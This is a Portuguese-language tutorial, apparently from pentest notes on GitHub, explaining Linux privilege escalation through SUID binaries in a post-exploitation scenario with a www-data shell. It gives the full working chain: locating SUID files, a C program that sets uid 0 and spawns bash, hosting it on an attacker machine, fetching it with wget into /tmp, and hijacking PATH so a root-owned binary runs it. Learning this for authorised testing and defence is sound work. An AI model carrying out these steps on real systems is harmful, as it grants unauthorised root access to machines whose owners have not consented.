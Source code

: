 ## Escalação de privilégios via binário SUID

Binários presentes no sistema, quando na situação de SUID, podem ser utilizados para escalar privilégios. Para isso, realize uma busca por esses binários:
```
find / -perm -4000 2>&-
```
Em seguida faça a consulta pelo nome do binário neste site https://gtfobins.github.io/ e veja como a escalação de privilégio pode ser feita.

Caso exista um binário específico (que não possa ser encontrado no repositório acima) é interessante realizar um disassembly para verificar se o mesmo, em algum momento da execução, executa outros binários do sistema. Veja o cenário abaixo:

<br>

**Considere um cenário de pós-exploração web após obter uma shell do usuário www-data (sem privilégios).**

<br>

É necessário buscar por binários SUID
```
find / -perm -4000 2>&-
```
![image](https://user-images.githubusercontent.com/76706456/180345179-c5a19806-54b8-48e8-a2fb-fb42267b07be.png)

Observe na imagem acima que há um binário chamado "script" em /arquivos

Ao executar, ele utiliza o cat para tentar abrir um arquivo inexistente no sistema
![image](https://user-images.githubusercontent.com/76706456/180345380-408e3c33-3ac8-43fb-88cd-7302a2d35706.png)

Neste caso, como o binário "script" é executado como root, ao executar o cat ele o faz com as mesmas permissões. Usaremos essa peculiaridade para escalar nosso privilégio.

Em sua máquina, crie o arquivo cat.c
```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

void main()
{
  setuid(0);
  setgid(0);
  system("/bin/bash");
}
```
Compile na mesma arquitetura do sistema alvo (**-m32** para sistemas 32 bits)
```
gcc -m32 cat.c -o cat
```
Será gerado um binário chamado **cat**, que chamaremos de cat "falso", uma vez que ele será executado no lugar do original.

Transfira o cat "falso" para o servidor. Podemos iniciar um web server na nossa máquina e baixar no servidor alvo (lembre-se de realizar a transferência em um diretório que o usuário www-data possua permissões de leitura/escrita)
```
python3 -m http.server 80
```
Faremos o download no diretório /tmp
```
cd /tmp;wget http://192.168.0.2/cat
```
Dê permissões ao cat "falso"
```
chmod 755 cat
```
Vamos ver qual é o PATH atual (diretório em que se encontram os binários do sistema)
```
echo $PATH
```
Vamos até o diretório em que se encontra o binário SUID
```
cd /arquivos
```
Vamos redefinir o caminho do PATH, apontando para o diretório em que foi realizado o wget do nosso cat "falso"
```
PATH="/tmp"
```
Agora execute o binário e observe que será obtido root (isso ocorre pois o binário SUID está executando como root o nosso cat "falso", que por sua vez spawna um novo bash)
```
./script
```
Redefina o PATH conforme visto anteriormente para conseguirmos utilizar todos os binários do sistema
```
PATH="/usr/local/bin:/usr/bin:/bin"
```

Observe que foi obtido root:

![image](https://user-images.githubusercontent.com/76706456/180348567-8bd50b1a-b5fe-47d4-81a4-f45aecc46623.png)
